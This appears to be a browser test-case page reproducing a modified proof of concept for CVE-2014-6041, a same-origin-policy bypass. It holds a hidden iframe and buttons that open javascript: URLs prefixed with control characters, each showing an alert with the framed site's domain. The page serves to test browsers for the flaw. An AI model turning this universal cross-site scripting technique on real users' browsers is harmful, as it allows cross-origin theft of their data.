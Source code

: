```yaml
---
layout: default
title: SOP Bypass - Testcase 8
permalink: /sop/new/8
---
```


Modified version of CVE-2014-6041 for testing other control characters

<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120258if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="window.open('\u000ajavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="window.open('\u000bjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 4" onclick="window.open('\u000cjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 5" onclick="window.open('\u000djavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 6" onclick="window.open('\u0020javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 6" onclick="window.open('\u002Cjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 7" onclick="window.open('\u003Bjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 8" onclick="window.open('\u0009javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 9" onclick="window.open('\u002Bjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 10" onclick="window.open('\u0028javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
